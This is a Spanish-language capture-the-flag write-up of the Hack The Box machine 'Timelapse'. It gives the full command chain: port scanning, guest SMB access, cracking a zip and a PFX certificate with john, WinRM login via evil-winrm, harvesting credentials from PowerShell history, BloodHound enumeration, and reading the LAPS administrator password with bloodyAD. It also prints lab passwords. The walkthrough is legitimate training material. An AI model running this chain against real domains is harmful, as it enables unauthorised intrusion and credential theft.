

Timelapse implica acceder a un recurso compartido SMB público, desbloquear un archivo zip con John, y extraer un archivo PFX cifrado. Luego, se obtiene un certificado SSL y una clave privada para iniciar sesión en el sistema a través de WinRM. Al descubrir las credenciales del usuario `svc_deploy`, que pertenece al grupo `LAPS_Readers`, se accede a la contraseña del Administrador y se establece una sesión WinRM.


# Enumeración

Iniciaremos enumerando los puertos abiertos con la herramienta de `nmap` para luego escanear los servicios que se ejecutan en cada uno de ellos.

```php
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.152 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5986/tcp  open  wsmans           syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49725/tcp open  unknown          syn-ack
55717/tcp open  unknown          syn-ack
```

- `-p-`: esta opción indica a Nmap que escanee todos los puertos, desde el puerto 1 hasta el puerto 65535. El guion (`-`) especifica el rango de puertos completo.
    
- `--open`: esta opción le indica a Nmap que muestre solo los puertos que están abiertos. Esto filtra la salida para mostrar solo los puertos accesibles.
    
- `--min-rate 5000`: esta opción establece la velocidad mínima de envío de paquetes a 5000 paquetes por segundo. Esto puede acelerar el escaneo de puertos al enviar paquetes más rápidamente.
    
- `-vvv`: esta opción activa el modo de verbosidad máximo, lo que significa que Nmap mostrará una cantidad significativa de información sobre el progreso del escaneo y los detalles de los puertos y hosts descubiertos.
    
- `-Pn`: esta opción le indica a Nmap que no realice el descubrimiento de hosts, lo que significa que no enviará pings para determinar si los hosts están activos. Esto es útil si el objetivo no responde a los pings, pero aún queremos escanear sus puertos.
    
- `-n`: esta opción le indica a Nmap que no realice la resolución de DNS inversa para las direcciones IP encontradas. Esto ayuda a acelerar el escaneo evitando la búsqueda de nombres de host.
    
- `10.10.11.152`: la dirección IP del objetivo que se está escaneando.
    
- `-oG allportsScan`: esta opción le indica a Nmap que genere la salida en formato "grepable" y guarde los resultados en un archivo llamado "allportsScan". Este formato es adecuado para el procesamiento posterior de los resultados del escaneo.

Una vez teniendo la lista de los puertos abiertos procederemos a enumerar los servicios y las versiones que se ejecutan en cada uno de los puertos.

```php
❯ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49725,55717 -sC -sV -n -Pn -vvv 10.10.11.152 -oN servicesScan
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-06 21:41:16Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5986/tcp  open  ssl/http      syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233:a199:4504:0859:013f:b9c5:e4f6:91c3
| SHA-1: 5861:acf7:76b8:703f:d01e:e25d:fc7c:9952:a447:7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2024-03-06T21:42:49+00:00; +7h59m55s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack Microsoft Windows RPC
55717/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32357/tcp): CLEAN (Timeout)
|   Check 2 (port 20408/tcp): CLEAN (Timeout)
|   Check 3 (port 22941/udp): CLEAN (Timeout)
|   Check 4 (port 61347/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m54s, deviation: 0s, median: 7h59m54s
| smb2-time: 
|   date: 2024-03-06T21:42:09
|_  start_date: N/A
```
		1|
- `-p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49725,55717`: esta opción especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5986, 9389, 49667, 49673, 49674, 49725 y 55717.
    
- `-sC`: esta opción activa el escaneo de scripts de Nmap, lo que implica ejecutar scripts prediseñados para detectar vulnerabilidades y recopilar información adicional sobre los servicios que se están ejecutando en los puertos escaneados.
    
- `-sV`: esta opción activa la detección de versión, lo que significa que Nmap intentará determinar las versiones de los servicios que se están ejecutando en los puertos escaneados.
    
- `-n`: esta opción le indica a Nmap que no realice la resolución de DNS inversa para las direcciones IP encontradas. Esto ayuda a acelerar el escaneo evitando la búsqueda de nombres de host.
    
- `-Pn`: esta opción le indica a Nmap que no realice el descubrimiento de hosts, lo que significa que no enviará pings para determinar si los hosts están activos. Esto es útil si el objetivo no responde a los pings, pero aún queremos escanear sus puertos.
    
- `-vvv`: esta opción activa el modo de verbosidad máximo, lo que significa que Nmap mostrará una cantidad significativa de información sobre el progreso del escaneo y los detalles de los puertos y servicios descubiertos.
    
- `10.10.11.152`: la dirección IP del objetivo que se está escaneando.
    
- `-oN servicesScan`: esta opción le indica a Nmap que genere la salida en formato normal y guarde los resultados en un archivo llamado "servicesScan". Este formato es adecuado para la revisión manual de los resultados del escaneo.

## Enumeración de smb

Encontramos en el servicio de `smb` se encuentra activo, por lo cual enumeraremos con `smbmap`

```php
❯ smbmap -H 10.10.11.152 -u 'guest'
```

Haciendo uso de `smbmap` podremos listar los directorios que podemos leer el contenido


Podemos visualizar que en el directorio `Shares` tenemos permisos  de lectura lectura por lo que haciendo uso de `smbclient` para ingresar al recurso compartido para visualizar el contenido del directorio 

```php
❯ smbclient \\\\10.10.11.152\\Shares
```


Dentro del recurso compartido encontraremos con dos directorios `Dev` y `HelpDesk`, en estos directorios encontraremos los siguientes archivos archivos que podemos leer y quizás nos pueda servir para obtener una shell de la maquina victima. 



## Cracking del archivo zip

Al querer descomprimir el `.zip` podremos darnos cuenta que esta protegido por contraseña


Para poder obtener la contraseña debemos de usar `john the ripper` por lo que primero `zip2john` y así obtener el hash.

```php
❯ zip2john winrm_backup.zip > hash_zip 
```

Luego de obtener el hash procederemos a crackear con `john` y el diccionario de `rockyou.txt`

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2024-03-06 09:01) 1.960g/s 6810Kp/s 6810Kc/s 6810KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Luego obtendremos la contraseña, en este `.zip` se encontraba el archivo `legacyy_dev_auth.pfx` 

## Certificado pfx

Investigando el archivo `legacyy_dev_auth.pfx`  o la extensión `.pfx` en [Hacktricks - pfx](https://book.hacktricks.xyz/crypto-and-stego/certificates#pfx-p12-pkcs-12-format) podemos hacer uso de este para obtener unos certificados `.pem`. En este caso este archivo nos pide una contraseña


Para obtener la contraseña usaremos `pfx2john`

```php
❯ pfx2john legacyy_dev_auth.pfx > hash_legacyy_dev_auth
```

Ahora que tenemos el hash crackearemos el hash con `john`

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_legacyy_dev_auth
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:40 DONE (2024-03-06 09:47) 0.02467g/s 79756p/s 79756c/s 79756C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Luego obtendremos la contraseña que en este caso es `thuglegacy`

# Explotación

Revisando ciertos post que son los siguientes, podremos leer un poco mas sobre archivos `.pfx`:

- [https://shuciran.github.io/posts/Legacy-PFX-certificate/](https://shuciran.github.io/posts/Legacy-PFX-certificate/)
- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cryptography.md#examples](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cryptography.md#examples)

En otros post podremos leer el como podemos usar este archivo `.pfx` para conectarnos a la maquina victima con `evil-winrm` :

- [https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/ ](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/ )
- [https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx](https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx)

En la siguiente imagen podremos ver como se debe de ejecutar `evil-winrm` y hacer uso de este certificado.


Para autenticarte usando un archivo `.pfx` con `evil-winrm`, necesitas convertir el archivo `.pfx` a dos archivos separados: una clave privada (generalmente en formato PEM) y un certificado (también en formato PEM). Luego puedes usar estos archivos para autenticarte con `evil-winrm`.

1. **Convertir el archivo .pfx a archivos PEM**:
    
    Utiliza el comando `openssl` para extraer la clave privada y el certificado del archivo `.pfx` y guardarlos en archivos separados:
    
    bashCopy code
    
    `openssl pkcs12 -in archivo.pfx -nocerts -out clave_privada.pem openssl pkcs12 -in archivo.pfx -clcerts -nokeys -out certificado.pem`
    
    Durante este proceso, se te pedirá que ingreses la contraseña del archivo `.pfx`.
    
2. **Autenticarse con `evil-winrm`**:
    
    Una vez que tengas los archivos PEM (`clave_privada.pem` y `certificado.pem`), puedes usarlos con `evil-winrm` para autenticarte. A continuación se muestra un ejemplo de cómo hacerlo:
    
    bashCopy code
    
    `evil-winrm -i ip_del_servidor -u usuario -s certificado.pem -k clave_privada.pem`
     o ` evil-winrm -i ip_del_servidor -c publicCert.pem -k priv-key.pem -S`
    Asegúrate de reemplazar `ip_del_servidor`, `usuario`, `certificado.pem` y `clave_privada.pem` con los valores correctos.

```php
❯ openssl pkcs12 -in legacyy_dev_auth.pfx  -clcerts -nokeys -out publicCert.pem
Enter Import Password:
```

```php
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
Enter Import Password:
```

Luego podremos obtener los dos archivos `.pem` que necesitamos para acceder a la maquina victima.


# Escalada de privilegios

## Usuario : legacyy

Haciendo uso de `publicCert.pem` y `priv-key.pem` que haciendo uso de `evil-winrm` podremos obtener una shell.

```php
❯ evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S
```


Enumerando el sistema podremos encontrar el historial de la `powershell` en donde encontraremos las credenciales del usuario `svc_deploy` 

```php
*Evil-WinRM* PS C:\users\legacyy> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


Para enumerar adecuadamente puedes revisar el siguiente contenido:

- [https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#passwords-stored-in-key-manager](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#passwords-stored-in-key-manager)

## Usuario : svc_deploy

Una vez encontrada las credenciales podremos ingresar como este usuario con `evil-winrm`

```php
svc_deploy: E3R$Q62^12p7PLlC%KWaxuaV
```

```php
❯ evil-winrm -S -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```


Ahora procederemos a enumerar con `bloodHound`, por lo que usaremos primero `SharpHound`.

### SharpHound

En este caso subiremos el binario de `SharpHound.exe` a la maquina victima

```php
*Evil-WinRM* PS C:\files> upload SharpHound.exe

Info: Uploading /home/b0ysie7e/seven/hackthebox/maquinas/Timelapse/content/winrm_backup/SharpHound.exe to C:\files\SharpHound.exe                                                          

Data: 1220608 bytes of 1220608 bytes copied

Info: Upload successful!  
```

Luego ejecutaremos el `SharpHound.exe`

```php
*Evil-WinRM* PS C:\files> .\SharpHound.exe -c all
2024-03-06T16:28:18.2803823-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-06T16:28:18.3116109-08:00|INFORMATION|Initializing SharpHound at 4:28 PM on 3/6/2024
2024-03-06T16:28:18.5772346-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-06T16:28:18.8272790-08:00|INFORMATION|Beginning LDAP search for timelapse.htb
2024-03-06T16:28:18.9053716-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-03-06T16:28:18.9053716-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-03-06T16:28:48.9307374-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-03-06T16:29:00.3157834-08:00|INFORMATION|Consumers finished, closing output channel
2024-03-06T16:29:00.3470371-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-03-06T16:29:00.5657925-08:00|INFORMATION|Status: 112 objects finished (+112 2.731707)/s -- Using 41 MB RAM
2024-03-06T16:29:00.5657925-08:00|INFORMATION|Enumeration finished in 00:00:41.7557855
2024-03-06T16:29:00.6907886-08:00|INFORMATION|SharpHound Enumeration Completed at 4:29 PM on 3/6/2024! Happy Graphing!

```

Luego de ejecutar SharpHound, podremos visualizar un archivo `.zip` el cual nos servirá.


Descargamos el `.zip`

 ```php
 *Evil-WinRM* PS C:\files> download 20240306162818_BloodHound.zip
Info: Downloading C:\files\20240306162818_BloodHound.zip to 20240306162818_BloodHound.zip
Info: Download successful!

```

### BloodHound

Luego de obtener o descargar nuestro `.zip` lo descomprimimos y luego podremos visualizar ciertos archivos


Estos archivos serán las que subiremos al `BloodHound` y encontraremos con que el usuario `svc_deploy` pertenece al grupo `LAPS_READERS` y este grupo tiene permiso de `ReadLAPSPassword` sobre el dominio


### ldapdomaindump

Antes de seguir enumerando con `BloodHound` podemos usar `ldapdomaindump` que haciendo uso de las credenciales de `svc_deploy` 

```php
❯ ldapdomaindump -u 'timelapse.htb\svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' 10.10.11.152
```

Luego obtendremos ciertos archivos


Teniendo estos archivos y para poder visualizar de manera grafica, para esto iniciaremos un servidor web con python3

```php
❯ python3 -m http.server 80
```

Ingresaremos en el navegador y observaremos una lista de usuarios, así como los grupos a los que pertenece. 


### laps-password

Para la explotacion de `ReadLAPSPassword` podemos revisar el siguiente post:
- [https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password)
Para lograr explotar esto, podemos hacer uso de `bloodyAD` que podemos descargar desde GitHub.

```php
bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```


Para descargar la herramienta de `bloodyAD` podemos ingresar a [CravateRouge - bloodyAD](https://github.com/CravateRouge/bloodyAD) y obtendremos una versión de la herramienta en Python.

```php
❯ python3 bloodyAD.py -u 'svc_deploy' -d timelapse.htb -p 'E3R$Q62^12p7PLlC%KWaxuaV' --host 10.10.11.152 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```


Esta herramienta nos permitirá obtener las credenciales, en este caso la credencial del usuario `Administrator`
## Usuario : Administrator

Luego haciendo uso de `evil-winrm` podremos ingresar a la maquina victima con las credenciales que la herramienta `bloodyAD` filtro.

```php
❯ evil-winrm -S -i 10.10.11.152 -u 'Administrator' -p 't6VhA%N+Pik96+%A.Q05aDu8'
```


